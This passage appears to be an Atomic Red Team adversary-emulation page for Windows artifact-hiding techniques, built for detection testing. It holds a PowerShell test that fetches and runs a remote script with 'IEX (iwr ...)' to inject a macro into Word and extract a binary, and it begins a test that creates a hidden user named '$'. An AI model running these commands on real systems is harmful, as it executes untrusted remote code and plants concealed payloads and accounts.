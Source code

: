 **Supported Platforms:** Windows


**auto_generated_guid:** 6afe288a-8a8b-4d33-a629-8d03ba9dad3a






#### Attack Commands: Run with `powershell`! 


```powershell
$macro = [System.IO.File]::ReadAllText("PathToAtomicsFolder\T1564\src\T1564-macrocode.txt")
$macro = $macro -replace "aREPLACEMEa", "PathToAtomicsFolder\T1564\bin\extractme.bin"
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroCode "$macro" -officeProduct "Word" -sub "Extract" -NoWrap
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\extracted.exe" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Create a Hidden User Called "$"
Creating a user with a username containing "$"

**Supported Platforms:** Windows


**auto_generated_guid:** 2ec63cc2-4975-41a6-bf09-dffdfb610778



